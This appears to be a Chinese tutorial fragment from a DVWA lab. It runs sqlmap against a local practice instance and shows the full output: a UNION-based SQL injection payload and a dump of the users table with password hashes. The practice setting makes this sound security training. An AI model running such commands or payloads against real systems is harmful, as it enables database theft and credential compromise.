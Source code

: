## 获取当前所有表数据

```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" --dump

//成功溢出如下

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:34:47

[11:34:47] [INFO] resuming back-end DBMS 'mysql'
[11:34:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:34:47] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL 5
[11:34:47] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:34:47] [INFO] fetching current database
[11:34:48] [WARNING] reflective value(s) found and filtering out
[11:34:48] [INFO] fetching tables for database: 'dvwa'
[11:34:48] [INFO] fetching columns for table 'users' in database 'dvwa'
[11:34:48] [INFO] fetching entries for table 'users' in database 'dvwa'
[11:34:48] [INFO] analyzing table dump for possible password hashes
[11:34:48] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: dvwa
Table: users
[5 entries]
+---------+--------------------------------------------------+---------+----------------------------------+-----------+------------+---------------------+--------------+
| user_id | avatar                                           | user    | password                         | last_name | first_name | last_login          | failed_login |
+---------+--------------------------------------------------+---------+----------------------------------+-----------+------------+---------------------+--------------+
| 1       | http://127.0.0.1/dvwa/hackable/users/admin.jpg   | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | admin     | admin      | 2017-09-11 10:49:31 | 0            |
| 2       | http://127.0.0.1/dvwa/hackable/users/gordonb.jpg | gordonb | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     | 2017-09-11 10:49:31 | 0            |
| 3       | http://127.0.0.1/dvwa/hackable/users/1337.jpg    | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       | 2017-09-11 10:49:31 | 0            |
| 4       | http://127.0.0.1/dvwa/hackable/users/pablo.jpg   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      | 2017-09-11 10:49:31 | 0            |
| 5       | http://127.0.0.1/dvwa/hackable/users/smithy.jpg  | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        | 2017-09-11 10:49:31 | 0            |
+---------+--------------------------------------------------+---------+----------------------------------+-----------+------------+---------------------+--------------+

[11:34:56] [INFO] table 'dvwa.users' dumped to CSV file 'C:\Users\cmk\.sqlmap\output\127.0.0.1\dump\dvwa\users.csv'
```